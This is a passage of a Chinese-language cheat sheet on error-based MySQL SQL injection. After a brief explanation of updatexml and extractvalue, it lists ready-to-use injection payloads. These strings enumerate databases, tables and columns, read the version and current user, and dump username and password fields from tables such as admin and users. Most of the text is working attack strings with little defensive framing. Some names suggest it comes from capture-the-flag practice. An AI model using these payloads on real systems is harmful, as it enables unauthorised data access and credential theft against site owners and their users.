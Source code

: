 

### updatexml

`updatexml(XML_document,XPath_string需要更新的路径,new_value修改后的新值)`这里和`ExtractValue`的区别是查找到对应的片段后要把其对应的内容更新为`new_value`但两者报错的原理是一样的

注入示例: 第一个和第二个参数都可以随便写, 第二个参数是需要查询的内容对应的语句,其中要包含`0x7e`

```
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #
```

### 常用payload

```
extractvalue爆库名
'or extractvalue(1,concat(0x7e,(database()),0x7e))#
updatexml爆表名
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e),1))#
updatexml爆列名
'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))#
updatexml爆数据
'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1))#

爆数据库版本信息
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
链接用户
?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)

链接数据库
?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)

爆库
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆表
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆字段
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM admin limit 0,1),0x7e),1)

爆字段内容
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
爆表名
?id=1 and updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
爆列名
?id=1 and updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#
爆字段
?id=1 and updatexml(1,make_set(3,'~',(select data from users)),1)#

```

